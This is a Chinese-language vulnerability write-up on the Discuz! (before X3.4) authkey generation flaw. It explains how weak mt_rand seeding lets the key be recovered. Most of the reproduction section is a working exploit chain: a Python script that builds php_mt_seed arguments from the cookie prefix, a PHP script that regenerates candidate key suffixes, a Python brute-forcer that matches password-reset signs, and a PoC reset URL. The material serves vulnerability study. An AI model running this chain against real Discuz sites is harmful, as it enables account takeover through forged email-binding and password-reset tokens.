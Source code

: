 # Discuz < 3.4 authkey 算法的安全性漏洞

## 一、漏洞简介

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等…

## 二、漏洞影响

php>5.3+php-curl<=7.54

* Discuz_X3.3_SC_GBK
* Discuz_X3.3_SC_UTF8
* Discuz_X3.3_TC_BIG5
* Discuz_X3.3_TC_UTF8
* Discuz_X3.2_SC_GBK
* Discuz_X3.2_SC_UTF8
* Discuz_X3.2_TC_BIG5
* Discuz_X3.2_TC_UTF8
* Discuz_X2.5_SC_GBK
* Discuz_X2.5_SC_UTF8
* Discuz_X2.5_TC_BIG5
* Discuz_X2.5_TC_UTF8

## 三、复现过程

漏洞分析

在`dz3.3/upload/install/index.php` 346行

![](images/15889910054271.png)


我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数

![](images/15889910123664.png)


当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀


```php
$_config['cookie']['cookiepre'] = random(4).'_';
```

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符

![](images/15889910318707.png)


如上图所示，前四位是**sW7c**

然后通过脚本生成用于php_mt_seed的参数

这里需要修改第13行代码，替换你自己的cookie前四位


```python
# coding=utf-8
w_len = 10
result = ""
str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
length = len(str_list)
for i in xrange(w_len):
    result+="0 "
    result+=str(length-1)
    result+=" "
    result+="0 "
    result+=str(length-1)
    result+=" "
sstr = "sW7c"
for i in sstr:
    result+=str(str_list.index(i))
    result+=" "
    result+=str(str_list.index(i))
    result+=" "
    result+="0 "
    result+=str(length-1)
    result+=" "
print result
```

得到参数,使用php_mt_seed脚本

https://github.com/ianxtianxt/php-mt_rand


```bash
./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt
```

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串


```php
<?php
function random($length) {
    $hash = '';
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
    $max = strlen($chars) - 1;
    PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
    for($i = 0; $i < $length; $i++) {
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
}
$fp = fopen('result.txt', 'rb');
$fp2 = fopen('result2.txt', 'wb');
while(!feof($fp)){
    $b = fgets($fp, 4096);
    if(preg_match("/seed = (\d)+/", $b, $matach)){
        $m = $matach[0];
    }else{
        continue;
    }
    // var_dump(substr($m,7));
    mt_srand(substr($m,7));
    fwrite($fp2, random(10)."\n");
}
fclose($fp);
fclose($fp2);
```

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多`16**6*200+`,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php` 65行生成用于验证的sign值。

![](images/15889910891237.png)


跟随make_getpws_sign函数进入/source/function/function_member.php

![](images/15889910963358.png)


然后进入dsign函数，配合authkey生成结果

![](images/15889911056996.png)


这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

**poc**


```
http://url/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
```

自行修改第7,8,13行代码


```python
# coding=utf-8
import itertools
import hashlib
import time
def dsign(authkey):
    url = "http://127.0.0.1/dz3.3/"
    idstring = "vnY6nW"
    uid = 2
    uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
    url_md5 = hashlib.md5(uurl+authkey)
    return url_md5.hexdigest()[:16]
def main():
    sign = "af3b937d0132a06b"
    str_list = "0123456789abcdef"
    with open('result2.txt') as f:
        ranlist = [s[:-1] for s in f]
    s_list = sorted(set(ranlist), key=ranlist.index)
    r_list = itertools.product(str_list, repeat=6)
    print "[!] start running...."
    s_time = time.time()
    for j in r_list:
        for s in s_list:
            prefix = "".join(j)
            authkey = prefix + s
            # print dsign(authkey)
            if dsign(authkey) == sign:
                print "[*] found used time: " + str(time.time() - s_time)
                return "[*] authkey found: " + authkey
print main()
```

![](images/15889911364527.png)


![](images/15889911399079.png)


参考链接

https://lorexxar.cn/2017/08/31/dz-authkey/#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85